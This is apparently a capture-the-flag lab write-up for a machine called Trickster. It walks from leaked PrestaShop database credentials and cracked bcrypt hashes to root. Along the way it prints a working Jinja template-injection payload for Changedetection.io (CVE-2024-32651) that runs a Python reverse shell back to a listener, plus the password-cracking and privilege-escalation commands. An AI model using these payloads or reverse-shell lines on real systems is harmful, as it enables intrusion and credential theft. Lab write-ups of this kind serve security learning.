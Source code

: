 ## Recon 



## Prev esc 
in file /var/www/prestashop/app/config/parameters.php we found sql db creds 
```
.<?php return array (
  'parameters' =>
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2024-05-25',
    'locale' => 'en-US',
    'use_debug_toolbar' => true,
    'cookie_key' => '8PR6s1SJZLPCjXTegH7fXttSAXbG2h6wfCD3cLk5GpvkGAZ4K9hMXpxBxrf7s42i',

```

in the table of ps_employee you found the following hashes:
$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm

We cracked a hash

```sh
┌──(root💀lulz-ShoulderRug)-[~]
└─# john --wordlist=./wordlists/rockyou.txt hashes.txt 
Created directory: /sec/root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 16 to 1024
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:07 0.07% (ETA: 2024-09-27 16:46) 0g/s 167.3p/s 334.7c/s 334.7C/s yamaha1..snuffy
alwaysandforever (?)     
1g 0:00:04:55 0.29% (ETA: 2024-09-27 16:57) 0.003388g/s 169.8p/s 295.7c/s 295.7C/s 240307..yamama
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
and like that we got user.txt

```sh

www-data@trickster:/home$ su james
su james
Password: alwaysandforever
bash: /home/james: Is a directory
james@trickster:~$ wc -c user.txt
33 user.txt
james@trickster:~$ cat user.txt
091f5f1791090449f1bfb2515ee3a7a6

```
## Lateral movement 
A docker is running on the machine 
```sh
james@trickster:~$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:82:b7:38:84  txqueuelen 0  (Ethernet)
        RX packets 25165  bytes 24398939 (24.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15794  bytes 3797841 (3.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Port forwarding port 5000  will give us a web server running (Changedetection.io) at it is running a vuln version v0.45.20 and there is already a poc for it [here](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/).
![[Vuln_change_detc.png]]

Our Payload:
```sh
Notication URL LIST: 
mailto://john@mail.mycompany.com/?to=steve@gmail.com
Notification boddy
        {% for x in ().__class__.__base__.__subclasses__() %}
        {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"172.17.0.1\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read()}}
        {% endif %}
        {% endfor %}
```
Click on send test notification, and like that we got into the docker.
```sh
james@trickster:~$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.0.2 48622
root@ae5c137aa8ef:/app# history
history
    1  apt update
    2  #YouC4ntCatchMe#  
```

Like that we got password for root.
```sh
james@trickster:~$ su root
Password: #YouC4ntCatchMe#
root@trickster:/home/james# cd ~
root@trickster:~# ls
changedetection  root.txt  scripts  snap
root@trickster:~# cat root.txt 
df3012d18dbd7a90f02c0bca7a9fd91b
root@trickster:~# 
```
